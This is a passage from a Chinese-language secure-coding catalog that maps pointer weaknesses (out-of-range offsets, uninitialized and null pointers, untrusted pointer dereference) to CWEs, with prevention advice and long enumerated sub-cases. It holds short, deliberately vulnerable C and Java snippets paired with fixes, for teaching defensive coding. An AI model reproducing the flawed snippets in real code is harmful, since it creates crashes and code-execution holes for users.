  编写单元测试，覆盖指针偏移的各种边界情况，如最小值、最大值、负数等。同时，模拟外部数据输入，确保所有可能的输入都被正确处理。

**代码Review**
- 策略1：审查偏移量逻辑
  特别关注指针偏移的使用情况，检查偏移量的来源和范围。确保每个偏移量都有相应的验证逻辑，防止遗漏。

**代码检查**
- 策略1：工具静态安全扫描
  使用静态分析工具（如CodeCheck）检测指针偏移越界问题。

**示例**
**案例1: 外部数据未经校验作为指针偏移量**
**语言: **C

**描述**
len 是从外部获取的，可能不可信。直接将 msg 指针加上 len，如果 len 大于 msgLen，就会导致指针越界，访问到未分配的内存区域。

**反例**
```c
void Example(unsigned char *msg, size_t msgLen)
{
    size_t len = GetFromExternal(); // 来自外部数据
    msg += len; // 不符合：指针偏移可能越界
    ...
}
```

**正例**
```c
void Example(unsigned char *msg, size_t msgLen)
{
    size_t len = GetFromExternal(); // 来自外部数据
    if (len < msgLen) {
        msg += len; // 符合：指针偏移在安全范围内
        ...
    }
}
```

**修复建议**
在进行指针偏移操作前，检查偏移量是否小于或等于内存块的长度，以防止越界访问。

#### CWD-1029-000 指针偏移量超出范围

#### CWD-1029-001 使用来自内部数据的数值，传递过程未经过计算，直接作为指针偏移量前未校验（不带指针长度），导致指针偏移越界

#### CWD-1029-002 使用来自内部数据的数值，传递过程未经过计算，直接作为指针偏移量前未校验（带正确的指针长度），导致指针偏移越界

#### CWD-1029-003 使用来自内部数据的数值，传递过程未经过计算，直接作为指针偏移量前未校验（带错误的指针长度），导致指针偏移越界

#### CWD-1029-004 使用来自内部数据的数值，传递过程未经过计算，作为循环边界，其循环变量作为指针偏移量前未校验（不带指针长度），导致指针偏移越界

#### CWD-1029-005 使用来自内部数据的数值，传递过程未经过计算，作为循环边界，其循环变量作为指针偏移量前未校验（带正确的指针长度），导致指针偏移越界

#### CWD-1029-006 使用来自内部数据的数值，传递过程未经过计算，作为循环边界，其循环变量作为指针偏移量前未校验（带错误的指针长度），导致指针偏移越界

#### CWD-1029-007 使用来自内部数据的数值，传递过程未经过计算，直接作为指针偏移量前校验错误（不带指针长度），导致指针偏移越界

#### CWD-1029-008 使用来自内部数据的数值，传递过程未经过计算，直接作为指针偏移量前校验错误（带正确的指针长度），导致指针偏移越界

#### CWD-1029-009 使用来自内部数据的数值，传递过程未经过计算，直接作为指针偏移量前校验错误（带错误的指针长度），导致指针偏移越界

#### CWD-1029-010 使用来自内部数据的数值，传递过程未经过计算，作为循环边界，其循环变量作为指针偏移量前校验错误（不带指针长度），导致指针偏移越界

#### CWD-1029-011 使用来自内部数据的数值，传递过程未经过计算，作为循环边界，其循环变量作为指针偏移量前校验错误（带正确的指针长度），导致指针偏移越界

#### CWD-1029-012 使用来自内部数据的数值，传递过程未经过计算，作为循环边界，其循环变量作为指针偏移量前校验错误（带错误的指针长度），导致指针偏移越界

#### CWD-1029-013 使用来自内部数据的数值，传递过程经过正确计算，直接作为指针偏移量前未校验（不带指针长度），导致指针偏移越界

#### CWD-1029-014 使用来自内部数据的数值，传递过程经过正确计算，直接作为指针偏移量前未校验（带正确的指针长度），导致指针偏移越界

#### CWD-1029-015 使用来自内部数据的数值，传递过程经过正确计算，直接作为指针偏移量前未校验（带错误的指针长度），导致指针偏移越界

#### CWD-1029-016 使用来自内部数据的数值，传递过程经过正确计算，作为循环边界，其循环变量作为指针偏移量前未校验（不带指针长度），导致指针偏移越界

#### CWD-1029-017 使用来自内部数据的数值，传递过程经过正确计算，作为循环边界，其循环变量作为指针偏移量前未校验（带正确的指针长度），导致指针偏移越界

#### CWD-1029-018 使用来自内部数据的数值，传递过程经过正确计算，作为循环边界，其循环变量作为指针偏移量前未校验（带错误的指针长度），导致指针偏移越界

#### CWD-1029-019 使用来自内部数据的数值，传递过程经过正确计算，直接作为指针偏移量前校验错误（不带指针长度），导致指针偏移越界

#### CWD-1029-020 使用来自内部数据的数值，传递过程经过正确计算，直接作为指针偏移量前校验错误（带正确的指针长度），导致指针偏移越界

#### CWD-1029-021 使用来自内部数据的数值，传递过程经过正确计算，直接作为指针偏移量前校验错误（带错误的指针长度），导致指针偏移越界

#### CWD-1029-022 使用来自内部数据的数值，传递过程经过正确计算，作为循环边界，其循环变量作为指针偏移量前校验错误（不带指针长度），导致指针偏移越界

#### CWD-1029-023 使用来自内部数据的数值，传递过程经过正确计算，作为循环边界，其循环变量作为指针偏移量前校验错误（带正确的指针长度），导致指针偏移越界

#### CWD-1029-024 使用来自内部数据的数值，传递过程经过正确计算，作为循环边界，其循环变量作为指针偏移量前校验错误（带错误的指针长度），导致指针偏移越界

#### CWD-1029-025 使用来自内部数据的数值，传递过程经过错误计算，直接作为指针偏移量前未校验（不带指针长度），导致指针偏移越界

#### CWD-1029-026 使用来自内部数据的数值，传递过程经过错误计算，直接作为指针偏移量前未校验（带正确的指针长度），导致指针偏移越界

#### CWD-1029-027 使用来自内部数据的数值，传递过程经过错误计算，直接作为指针偏移量前未校验（带错误的指针长度），导致指针偏移越界

#### CWD-1029-028 使用来自内部数据的数值，传递过程经过错误计算，作为循环边界，其循环变量作为指针偏移量前未校验（不带指针长度），导致指针偏移越界

#### CWD-1029-029 使用来自内部数据的数值，传递过程经过错误计算，作为循环边界，其循环变量作为指针偏移量前未校验（带正确的指针长度），导致指针偏移越界

#### CWD-1029-030 使用来自内部数据的数值，传递过程经过错误计算，作为循环边界，其循环变量作为指针偏移量前未校验（带错误的指针长度），导致指针偏移越界

#### CWD-1029-031 使用来自内部数据的数值，传递过程经过错误计算，直接作为指针偏移量前校验错误（不带指针长度），导致指针偏移越界

#### CWD-1029-032 使用来自内部数据的数值，传递过程经过错误计算，直接作为指针偏移量前校验错误（带正确的指针长度），导致指针偏移越界

#### CWD-1029-033 使用来自内部数据的数值，传递过程经过错误计算，直接作为指针偏移量前校验错误（带错误的指针长度），导致指针偏移越界

#### CWD-1029-034 使用来自内部数据的数值，传递过程经过错误计算，作为循环边界，其循环变量作为指针偏移量前校验错误（不带指针长度），导致指针偏移越界

#### CWD-1029-035 使用来自内部数据的数值，传递过程经过错误计算，作为循环边界，其循环变量作为指针偏移量前校验错误（带正确的指针长度），导致指针偏移越界

#### CWD-1029-036 使用来自内部数据的数值，传递过程经过错误计算，作为循环边界，其循环变量作为指针偏移量前校验错误（带错误的指针长度），导致指针偏移越界

#### CWD-1029-037 使用来自外部数据的数值，传递过程未经过计算，直接作为指针偏移量前未校验（不带指针长度），导致指针偏移越界

#### CWD-1029-038 使用来自外部数据的数值，传递过程未经过计算，直接作为指针偏移量前未校验（带正确的指针长度），导致指针偏移越界

#### CWD-1029-039 使用来自外部数据的数值，传递过程未经过计算，直接作为指针偏移量前未校验（带错误的指针长度），导致指针偏移越界

#### CWD-1029-040 使用来自外部数据的数值，传递过程未经过计算，作为循环边界，其循环变量作为指针偏移量前未校验（不带指针长度），导致指针偏移越界

#### CWD-1029-041 使用来自外部数据的数值，传递过程未经过计算，作为循环边界，其循环变量作为指针偏移量前未校验（带正确的指针长度），导致指针偏移越界

#### CWD-1029-042 使用来自外部数据的数值，传递过程未经过计算，作为循环边界，其循环变量作为指针偏移量前未校验（带错误的指针长度），导致指针偏移越界

#### CWD-1029-043 使用来自外部数据的数值，传递过程未经过计算，直接作为指针偏移量前校验错误（不带指针长度），导致指针偏移越界

#### CWD-1029-044 使用来自外部数据的数值，传递过程未经过计算，直接作为指针偏移量前校验错误（带正确的指针长度），导致指针偏移越界

#### CWD-1029-045 使用来自外部数据的数值，传递过程未经过计算，直接作为指针偏移量前校验错误（带错误的指针长度），导致指针偏移越界

#### CWD-1029-046 使用来自外部数据的数值，传递过程未经过计算，作为循环边界，其循环变量作为指针偏移量前校验错误（不带指针长度），导致指针偏移越界

#### CWD-1029-047 使用来自外部数据的数值，传递过程未经过计算，作为循环边界，其循环变量作为指针偏移量前校验错误（带正确的指针长度），导致指针偏移越界

#### CWD-1029-048 使用来自外部数据的数值，传递过程未经过计算，作为循环边界，其循环变量作为指针偏移量前校验错误（带错误的指针长度），导致指针偏移越界

#### CWD-1029-049 使用来自外部数据的数值，传递过程经过正确计算，直接作为指针偏移量前未校验（不带指针长度），导致指针偏移越界

#### CWD-1029-050 使用来自外部数据的数值，传递过程经过正确计算，直接作为指针偏移量前未校验（带正确的指针长度），导致指针偏移越界

#### CWD-1029-051 使用来自外部数据的数值，传递过程经过正确计算，直接作为指针偏移量前未校验（带错误的指针长度），导致指针偏移越界

#### CWD-1029-052 使用来自外部数据的数值，传递过程经过正确计算，作为循环边界，其循环变量作为指针偏移量前未校验（不带指针长度），导致指针偏移越界

#### CWD-1029-053 使用来自外部数据的数值，传递过程经过正确计算，作为循环边界，其循环变量作为指针偏移量前未校验（带正确的指针长度），导致指针偏移越界

#### CWD-1029-054 使用来自外部数据的数值，传递过程经过正确计算，作为循环边界，其循环变量作为指针偏移量前未校验（带错误的指针长度），导致指针偏移越界

#### CWD-1029-055 使用来自外部数据的数值，传递过程经过正确计算，直接作为指针偏移量前校验错误（不带指针长度），导致指针偏移越界

#### CWD-1029-056 使用来自外部数据的数值，传递过程经过正确计算，直接作为指针偏移量前校验错误（带正确的指针长度），导致指针偏移越界

#### CWD-1029-057 使用来自外部数据的数值，传递过程经过正确计算，直接作为指针偏移量前校验错误（带错误的指针长度），导致指针偏移越界

#### CWD-1029-058 使用来自外部数据的数值，传递过程经过正确计算，作为循环边界，其循环变量作为指针偏移量前校验错误（不带指针长度），导致指针偏移越界

#### CWD-1029-059 使用来自外部数据的数值，传递过程经过正确计算，作为循环边界，其循环变量作为指针偏移量前校验错误（带正确的指针长度），导致指针偏移越界

#### CWD-1029-060 使用来自外部数据的数值，传递过程经过正确计算，作为循环边界，其循环变量作为指针偏移量前校验错误（带错误的指针长度），导致指针偏移越界

#### CWD-1029-061 使用来自外部数据的数值，传递过程经过错误计算，直接作为指针偏移量前未校验（不带指针长度），导致指针偏移越界

#### CWD-1029-062 使用来自外部数据的数值，传递过程经过错误计算，直接作为指针偏移量前未校验（带正确的指针长度），导致指针偏移越界

#### CWD-1029-063 使用来自外部数据的数值，传递过程经过错误计算，直接作为指针偏移量前未校验（带错误的指针长度），导致指针偏移越界

#### CWD-1029-064 使用来自外部数据的数值，传递过程经过错误计算，作为循环边界，其循环变量作为指针偏移量前未校验（不带指针长度），导致指针偏移越界

#### CWD-1029-065 使用来自外部数据的数值，传递过程经过错误计算，作为循环边界，其循环变量作为指针偏移量前未校验（带正确的指针长度），导致指针偏移越界

#### CWD-1029-066 使用来自外部数据的数值，传递过程经过错误计算，作为循环边界，其循环变量作为指针偏移量前未校验（带错误的指针长度），导致指针偏移越界

#### CWD-1029-067 使用来自外部数据的数值，传递过程经过错误计算，直接作为指针偏移量前校验错误（不带指针长度），导致指针偏移越界

#### CWD-1029-068 使用来自外部数据的数值，传递过程经过错误计算，直接作为指针偏移量前校验错误（带正确的指针长度），导致指针偏移越界

#### CWD-1029-069 使用来自外部数据的数值，传递过程经过错误计算，直接作为指针偏移量前校验错误（带错误的指针长度），导致指针偏移越界

#### CWD-1029-070 使用来自外部数据的数值，传递过程经过错误计算，作为循环边界，其循环变量作为指针偏移量前校验错误（不带指针长度），导致指针偏移越界

#### CWD-1029-071 使用来自外部数据的数值，传递过程经过错误计算，作为循环边界，其循环变量作为指针偏移量前校验错误（带正确的指针长度），导致指针偏移越界

#### CWD-1029-072 使用来自外部数据的数值，传递过程经过错误计算，作为循环边界，其循环变量作为指针偏移量前校验错误（带错误的指针长度），导致指针偏移越界

**业界缺陷**

- [CWE-823: Use of Out-of-range Pointer Offset](https://cwe.mitre.org/data/definitions/823.html)
---

# CWD-1030 访问未初始化的指针

**描述**
指针用于存储内存地址，未初始化的指针指向的内存地址是不确定的，这个地址可能是无效的或指向程序不应访问的内存区域。访问或使用尚未初始化的指针可能导致读取或写入意外的内存位置，从而导致拒绝服务。因此，应确保在使用指针前进行正确初始化，例如显式设置为NULL或分配有效内存地址。

**语言: **C,CPP,JAVA

**严重等级**
一般

**cleancode特征**
安全,可靠

**缺陷防护全景**
**编码**
- 策略1：指针都被显式初始化
  在声明指针时，确保每个指针都被显式初始化为NULL或指向有效的内存地址。
- 策略2：动态内存分配后的初始化
  在使用malloc、new等函数分配内存后，使用memset_s函数将内存清零，确保所有成员变量被初始化。

**代码Review**
- 策略1：指针都被显式初始化
  在代码审查中，检查指针的声明和初始化，确保每个指针在使用前被正确初始化，避免悬空指针的使用。

**代码检查**
- 策略1：工具静态安全扫描
  使用静态分析工具（如CodeCheck）检测未初始化的指针问题。

**示例**
**案例1: 解引用未初始化指针变量**
**语言: **C

**描述**
未初始化的指针在使用前未被赋予有效的内存地址。

**反例**
```c
int *p;  // 未初始化的指针
*p = 5;  // 不符合：访问未初始化的指针
```

**正例**
```c
int value;
int *p = &value; // 在声明指针时，将其初始化
*p = 5;  // 符合
```

**修复建议**
确保每个指针在使用前被正确初始化。

#### CWD-1030-000 访问未初始化的指针

#### CWD-1030-001 使用来自全局作用域的指针，传递过程中指针未初始化，直接解引用导致访问未初始化的指针

#### CWD-1030-002 使用来自全局作用域的指针，传递过程中指针未初始化，传入库函数中使用导致访问未初始化的指针

#### CWD-1030-003 使用来自全局作用域的指针，传递过程中指针未初始化，参与算术运算导致访问未初始化的指针

#### CWD-1030-004 使用来自全局作用域的指针，传递过程中指针初始化错误，直接解引用导致访问未初始化的指针

#### CWD-1030-005 使用来自全局作用域的指针，传递过程中指针初始化错误，传入库函数中使用导致访问未初始化的指针

#### CWD-1030-006 使用来自全局作用域的指针，传递过程中指针初始化错误，参与算术运算导致访问未初始化的指针

#### CWD-1030-007 使用来自全局作用域的指针，传递过程中指针指向的内存未初始化，直接解引用导致访问未初始化的指针

#### CWD-1030-008 使用来自全局作用域的指针，传递过程中指针指向的内存未初始化，传入库函数中使用导致访问未初始化的指针

#### CWD-1030-009 使用来自全局作用域的指针，传递过程中指针指向的内存未初始化，参与算术运算导致访问未初始化的指针

#### CWD-1030-010 使用来自全局作用域的指针，传递过程中指针指向的内存初始化错误，直接解引用导致访问未初始化的指针

#### CWD-1030-011 使用来自全局作用域的指针，传递过程中指针指向的内存初始化错误，传入库函数中使用导致访问未初始化的指针

#### CWD-1030-012 使用来自全局作用域的指针，传递过程中指针指向的内存初始化错误，参与算术运算导致访问未初始化的指针

#### CWD-1030-013 使用来自局部作用域的指针，传递过程中指针未初始化，直接解引用导致访问未初始化的指针

#### CWD-1030-014 使用来自局部作用域的指针，传递过程中指针未初始化，传入库函数中使用导致访问未初始化的指针

#### CWD-1030-015 使用来自局部作用域的指针，传递过程中指针未初始化，参与算术运算导致访问未初始化的指针

#### CWD-1030-016 使用来自局部作用域的指针，传递过程中指针初始化错误，直接解引用导致访问未初始化的指针

#### CWD-1030-017 使用来自局部作用域的指针，传递过程中指针初始化错误，传入库函数中使用导致访问未初始化的指针

#### CWD-1030-018 使用来自局部作用域的指针，传递过程中指针初始化错误，参与算术运算导致访问未初始化的指针

#### CWD-1030-019 使用来自局部作用域的指针，传递过程中指针指向的内存未初始化，直接解引用导致访问未初始化的指针

#### CWD-1030-020 使用来自局部作用域的指针，传递过程中指针指向的内存未初始化，传入库函数中使用导致访问未初始化的指针

#### CWD-1030-021 使用来自局部作用域的指针，传递过程中指针指向的内存未初始化，参与算术运算导致访问未初始化的指针

#### CWD-1030-022 使用来自局部作用域的指针，传递过程中指针指向的内存初始化错误，直接解引用导致访问未初始化的指针

#### CWD-1030-023 使用来自局部作用域的指针，传递过程中指针指向的内存初始化错误，传入库函数中使用导致访问未初始化的指针

#### CWD-1030-024 使用来自局部作用域的指针，传递过程中指针指向的内存初始化错误，参与算术运算导致访问未初始化的指针

**业界缺陷**

- [CWE-824: Access of Uninitialized Pointer](https://cwe.mitre.org/data/definitions/824.html)
---

# CWD-1031 空指针解引用

**描述**
空指针解引用错误是指程序试图访问一个期望非空但实际为空的指针，通常发生在解引用操作时。这种错误可能导致程序崩溃或退出。为了避免空指针解引用错误，建议在解引用指针之前，进行空值检查，确保其指向有效的内存地址。

**语言: **C,CPP,JAVA

**严重等级**
严重

**cleancode特征**
安全,可靠

**缺陷防护全景**
**软件实现设计**
- 策略1：使用RAII、智能指针
  在设计阶段选择使用RAII、智能指针（如C++中的std::unique_ptr或std::shared_ptr），以自动管理内存生命周期，避免原始指针的直接传递。

**编码**
- 策略1：在使用指针前，检查是否为null
  1. 返回值为指针时，需要判断是否为空
  2. 传入函数的指针参数，需要在函数内部进行空检查
- 策略2：使用RAII、智能指针
  尽量避免使用原始指针，改用智能指针来管理动态内存。智能指针会在对象生命周期结束时自动释放内存，减少空指针的风险。

**开发者测试**
- 策略1：针对空指针的测试代码
  利用单元测试框架（如JUnit、TestNG、pytest等），编写针对空指针的测试代码。确保每个可能引发空指针异常的代码分支都得到充分测试，验证程序在处理空值时的正确性。

**代码Review**
- 策略1：审查函数返回值是否判空
  定位内存申请函数，检查调用后是否对结果进行非NULL校验，如果没有，则存在问题。
  除了内存申请时需要判断是否成功，以防止空指针引用问题外，一些系统库函数的返回值也存在为NULL的情况，也需要增加判断，尤其该函数从不可信数据源获取信息时。如当环境变量被修改时，函数getenv()可能返回NULL，程序中如果未校验返回值直接使用，则会出现解引用空指针。
  问题易发场景：
  1.获取系统配置文件内容：如/etc/passwd、/etc/group中的家目录、组ID等信息
  2.获取环境变量信息
  3.从指定文件获取内容：文件不存在或者格式不符等。

**代码检查**
- 策略1：工具静态安全扫描
  使用静态分析工具（如CodeCheck）检测空指针解引用问题。

**示例**
**案例1: malloc函数返回值未判空就使用**
**语言: **C

**描述**
使用malloc函数申请内存时，必须检查其返回值是否为NULL。如果未进行判空操作，直接使用返回的指针可能导致空指针解引用。

**反例**
```c
void NotCheckMemoryAllocRetcase01Bad01()
{
    /* 申请内存 */
    char *tmp = (char *)malloc(sizeof(char) * NUM);
    for (int i = 0; i < NUM; i++) {
        tmp[i] = 0;
    }
    free(tmp);
    /* 不符合: 内存申请之后未判断是否成功 */
}
```

**正例**
```c
void NotCheckMemoryAllocRetcase01Good01()
{
    char *tmp = (char *)malloc(sizeof(char) * NUM);
    /* 符合: 内存申请之后立刻判断是否成功 */
    if (tmp != NULL) {
        for (int i = 0; i < NUM; i++) {
            tmp[i] = 0;
        }
        free(tmp);
    }
}
```

**修复建议**
在调用malloc函数后，应立即检查其返回值是否为NULL。

#### CWD-1031-000 空指针解引用

#### CWD-1031-001 在多进程/线程下，直接作为指针类型传递到全局作用域，直接解引用前未判空，导致空指针解引用

#### CWD-1031-002 在多进程/线程下，直接作为指针类型传递到全局作用域，传入库函数中使用前未判空，导致空指针解引用

#### CWD-1031-003 在多进程/线程下，直接作为指针类型传递到全局作用域，参与算术运算前未判空，导致空指针解引用

#### CWD-1031-004 在多进程/线程下，直接作为指针类型传递到全局作用域，直接解引用前判空错误，导致空指针解引用

#### CWD-1031-005 在多进程/线程下，直接作为指针类型传递到全局作用域，传入库函数中使用前判空错误，导致空指针解引用

#### CWD-1031-006 在多进程/线程下，直接作为指针类型传递到全局作用域，参与算术运算前判空错误，导致空指针解引用

#### CWD-1031-007 在多进程/线程下，直接作为指针类型传递到局部作用域，直接解引用前未判空，导致空指针解引用

#### CWD-1031-008 在多进程/线程下，直接作为指针类型传递到局部作用域，传入库函数中使用前未判空，导致空指针解引用

#### CWD-1031-009 在多进程/线程下，直接作为指针类型传递到局部作用域，参与算术运算前未判空，导致空指针解引用

#### CWD-1031-010 在多进程/线程下，直接作为指针类型传递到局部作用域，直接解引用前判空错误，导致空指针解引用

#### CWD-1031-011 在多进程/线程下，直接作为指针类型传递到局部作用域，传入库函数中使用前判空错误，导致空指针解引用

#### CWD-1031-012 在多进程/线程下，直接作为指针类型传递到局部作用域，参与算术运算前判空错误，导致空指针解引用

#### CWD-1031-013 在多进程/线程下，转换为指针类型传递到全局作用域，直接解引用前未判空，导致空指针解引用

#### CWD-1031-014 在多进程/线程下，转换为指针类型传递到全局作用域，传入库函数中使用前未判空，导致空指针解引用

#### CWD-1031-015 在多进程/线程下，转换为指针类型传递到全局作用域，参与算术运算前未判空，导致空指针解引用

#### CWD-1031-016 在多进程/线程下，转换为指针类型传递到全局作用域，直接解引用前判空错误，导致空指针解引用

#### CWD-1031-017 在多进程/线程下，转换为指针类型传递到全局作用域，传入库函数中使用前判空错误，导致空指针解引用

#### CWD-1031-018 在多进程/线程下，转换为指针类型传递到全局作用域，参与算术运算前判空错误，导致空指针解引用

#### CWD-1031-019 在多进程/线程下，转换为指针类型传递到局部作用域，直接解引用前未判空，导致空指针解引用

#### CWD-1031-020 在多进程/线程下，转换为指针类型传递到局部作用域，传入库函数中使用前未判空，导致空指针解引用

#### CWD-1031-021 在多进程/线程下，转换为指针类型传递到局部作用域，参与算术运算前未判空，导致空指针解引用

#### CWD-1031-022 在多进程/线程下，转换为指针类型传递到局部作用域，直接解引用前判空错误，导致空指针解引用

#### CWD-1031-023 在多进程/线程下，转换为指针类型传递到局部作用域，传入库函数中使用前判空错误，导致空指针解引用

#### CWD-1031-024 在多进程/线程下，转换为指针类型传递到局部作用域，参与算术运算前判空错误，导致空指针解引用

#### CWD-1031-025 在单进程/线程下，直接作为指针类型传递到全局作用域，直接解引用前未判空，导致空指针解引用

#### CWD-1031-026 在单进程/线程下，直接作为指针类型传递到全局作用域，传入库函数中使用前未判空，导致空指针解引用

#### CWD-1031-027 在单进程/线程下，直接作为指针类型传递到全局作用域，参与算术运算前未判空，导致空指针解引用

#### CWD-1031-028 在单进程/线程下，直接作为指针类型传递到全局作用域，直接解引用前判空错误，导致空指针解引用

#### CWD-1031-029 在单进程/线程下，直接作为指针类型传递到全局作用域，传入库函数中使用前判空错误，导致空指针解引用

#### CWD-1031-030 在单进程/线程下，直接作为指针类型传递到全局作用域，参与算术运算前判空错误，导致空指针解引用

#### CWD-1031-031 在单进程/线程下，直接作为指针类型传递到局部作用域，直接解引用前未判空，导致空指针解引用

#### CWD-1031-032 在单进程/线程下，直接作为指针类型传递到局部作用域，传入库函数中使用前未判空，导致空指针解引用

#### CWD-1031-033 在单进程/线程下，直接作为指针类型传递到局部作用域，参与算术运算前未判空，导致空指针解引用

#### CWD-1031-034 在单进程/线程下，直接作为指针类型传递到局部作用域，直接解引用前判空错误，导致空指针解引用

#### CWD-1031-035 在单进程/线程下，直接作为指针类型传递到局部作用域，传入库函数中使用前判空错误，导致空指针解引用

#### CWD-1031-036 在单进程/线程下，直接作为指针类型传递到局部作用域，参与算术运算前判空错误，导致空指针解引用

#### CWD-1031-037 在单进程/线程下，转换为指针类型传递到全局作用域，直接解引用前未判空，导致空指针解引用

#### CWD-1031-038 在单进程/线程下，转换为指针类型传递到全局作用域，传入库函数中使用前未判空，导致空指针解引用

#### CWD-1031-039 在单进程/线程下，转换为指针类型传递到全局作用域，参与算术运算前未判空，导致空指针解引用

#### CWD-1031-040 在单进程/线程下，转换为指针类型传递到全局作用域，直接解引用前判空错误，导致空指针解引用

#### CWD-1031-041 在单进程/线程下，转换为指针类型传递到全局作用域，传入库函数中使用前判空错误，导致空指针解引用

#### CWD-1031-042 在单进程/线程下，转换为指针类型传递到全局作用域，参与算术运算前判空错误，导致空指针解引用

#### CWD-1031-043 在单进程/线程下，转换为指针类型传递到局部作用域，直接解引用前未判空，导致空指针解引用

#### CWD-1031-044 在单进程/线程下，转换为指针类型传递到局部作用域，传入库函数中使用前未判空，导致空指针解引用

#### CWD-1031-045 在单进程/线程下，转换为指针类型传递到局部作用域，参与算术运算前未判空，导致空指针解引用

#### CWD-1031-046 在单进程/线程下，转换为指针类型传递到局部作用域，直接解引用前判空错误，导致空指针解引用

#### CWD-1031-047 在单进程/线程下，转换为指针类型传递到局部作用域，传入库函数中使用前判空错误，导致空指针解引用

#### CWD-1031-048 在单进程/线程下，转换为指针类型传递到局部作用域，参与算术运算前判空错误，导致空指针解引用

#### CWD-1031-049 boolean返回空对象

#### CWD-1031-050 集合类型返回null

#### CWD-1031-051 System.getenv返回值可能为null，在使用变量前未判空，会发生空指针引用

#### CWD-1031-052 java.lang.Integer.getInteger、java.lang.Long.getLong返回值可能为null，在使用变量前未判空，会发生空指针引用

#### CWD-1031-053 System.setProperty返回系统属性旧值，如果无旧值，则返回 null，在使用变量前未判空，会发生空指针引用

#### CWD-1031-054 System.getProperty(key)返回值可能为null，在使用变量前未判空，会发生空指针引用

#### CWD-1031-055 request.getParameter(key)可能提交的请求无该字段，需要使用返回的对象前进行判空

#### CWD-1031-056 equals时使用"xxx".equals(val)替换val.equals（"xxx"）写法，防止val为null，导致空指针异常

#### CWD-1031-057 Optional对象在进行get操作前没有调用isPresent方法进行判空

**业界缺陷**

- [CWE-476: NULL Pointer Dereference](https://cwe.mitre.org/data/definitions/476.html)
---

# CWD-1032 使用try-catch捕获NullPointerException

**描述**
在Java中，空指针解引用问题会抛出NullPointerException。通过try...catch的方式进行处理，不仅可能影响代码的可读性，还可能降低系统的运行效率。因此，推荐在访问对象之前，使用条件语句（如if语句）来检查对象是否为null，以避免抛出异常。这样可以提高代码的可读性和性能，同时确保错误被明确处理。

**语言: **JAVA

**严重等级**
提示

**cleancode特征**
高效,可读

**缺陷防护全景**
**编码**
- 策略1：对象先判空再使用
  在可能抛出NullPointerException的地方添加显式的空值检查。

**开发者测试**
- 策略1：空值测试
  在单元测试中覆盖空值场景，确保代码在处理空值时的行为符合预期。

**代码检查**
- 策略1：工具静态安全扫描
  使用静态分析工具（如CodeCheck）检测捕获NullPointerException问题。

**示例**
**案例1: 通过捕获NullPointerException来处理空指针解引用错误**
**语言: **JAVA

**描述**
通过捕获NullPointerException来处理空指针异常，这可能影响代码的可读性和系统性能。

**反例**
```java
public boolean validateUntrustInput(String paramValue) { // paramValue 可能为空
    try {
        if (paramValue.length() < 6 || paramValue.length() > 20) {
            return false;
        }
        ...
        return true;
    } catch (NullPointerException ex) { // 不符合：通过捕获NullPointerException进行处理
        return false;
    }
}
```

**正例**
```java
public boolean validateUntrustInput(String paramValue) {  // paramValue 可能为空
    if (paramValue == null) { // 符合：明确检查了参数是否为null
        return false;
    }
    if (paramValue.length() < 6 || paramValue.length() > 20) {
        return false;
    }
    ...
    return true;
}
```

**修复建议**
在代码中明确检查可能为空的变量，避免使用try...catch来处理这些异常。

#### CWD-1032-000 使用try-catch捕获NullPointerException

#### CWD-1032-001 不要直接捕获可通过预检查进行处理的RuntimeException，如NullPointerException、IndexOutOfBoundsException等

**业界缺陷**

- [CWE-395: Use of NullPointerException Catch to Detect NULL Pointer Dereference](https://cwe.mitre.org/data/definitions/395.html)
---

# CWD-1034 不受信任的指针解引用

**描述**
从不可信的来源获取指针，直接访问（解引用）这个指针指向的内存位置，可能导致以下问题：


- 写操作：攻击者可以修改关键状态变量，导致程序崩溃或执行恶意代码。- 读操作：攻击者可以读取敏感数据，导致信息泄露，或者将程序中的变量设置为意外值，影响程序的正常运行。
因此，需确保所有输入都经过严格验证，避免对不可信数据直接进行指针操作。

**语言: **C,CPP

**严重等级**
一般

**cleancode特征**
安全,可靠

**缺陷防护全景**
**软件实现设计**
- 策略1：安全边界设计
  在设计阶段，明确数据来源的可信性，确保所有从不可信来源获取的数据都经过验证和过滤。设计时应考虑使用安全的数据结构和算法，避免直接使用指针操作。

**编码**
- 策略1：使用专用函数
  当内核需要访问用户态的数据时，需要使用特殊的机制来确保安全性，例如copy_from_user() 和 copy_to_user()等函数。
- 策略2：指针检查
  在解引用指针之前，检查指针是否有效，确保其指向预期的内存区域。

**代码检查**
- 策略1：工具静态安全扫描
  使用静态分析工具（如CodeCheck）检测不受信任的指针解引用问题。

**示例**
**案例1: 将未受信任的数据直接作为函数指针调用**
**语言: **C

**描述**
如果程序直接将从数据包中提取的值作为函数指针调用，攻击者可以构造恶意数据包，其中包含指向任意代码的指针。当程序解引用并调用这个指针时，攻击者可以执行任意代码，这可能导致远程代码执行。

**反例**
```c
void ProcessPacket(int packetValue) // 从数据包中获取的packetValue值
{
    void (*funcPtr)() = (void *)packetValue; // 不符合：直接使用packet_value作为函数指针调用
    funcPtr();
}
```

**正例**
```c
// 定义一个函数指针数组
void (*FuncPtrArray[])() = {Func1, Func2, Func3};

void ProcessPacket(int packetValue) // 从数据包中获取的packetValue值
{
    // 确保packetValue在有效范围内
    if (packetValue >= 0 && packetValue < sizeof(FuncPtrArray) / sizeof(FuncPtrArray[0])) {
        FuncPtrArray[packetValue](); // 符合
    }
}
```

**修复建议**
1. 输入验证：确保从数据包中提取的值经过严格验证，避免直接将其用作函数指针。
2. 使用安全的函数指针管理：避免直接使用函数指针，可以使用函数指针数组或映射表来管理函数调用。

#### CWD-1034-000 不受信任的指针解引用

#### CWD-1034-001 使用来自外部的非空数据，直接作为指针类型传递，直接解引用前有效性未校验，导致不受信任的指针解引用

#### CWD-1034-002 使用来自外部的非空数据，直接作为指针类型传递，传入库函数中使用前有效性未校验，导致不受信任的指针解引用

#### CWD-1034-003 使用来自外部的非空数据，直接作为指针类型传递，参与算术运算前有效性未校验，导致不受信任的指针解引用

#### CWD-1034-004 使用来自外部的非空数据，直接作为指针类型传递，直接解引用前有效性校验错误，导致不受信任的指针解引用

#### CWD-1034-005 使用来自外部的非空数据，直接作为指针类型传递，传入库函数中使用前有效性校验错误，导致不受信任的指针解引用

#### CWD-1034-006 使用来自外部的非空数据，直接作为指针类型传递，参与算术运算前有效性校验错误，导致不受信任的指针解引用

#### CWD-1034-007 使用来自外部的非空数据，转换为指针类型传递，直接解引用前有效性未校验，导致不受信任的指针解引用

#### CWD-1034-008 使用来自外部的非空数据，转换为指针类型传递，传入库函数中使用前有效性未校验，导致不受信任的指针解引用

#### CWD-1034-009 使用来自外部的非空数据，转换为指针类型传递，参与算术运算前有效性未校验，导致不受信任的指针解引用

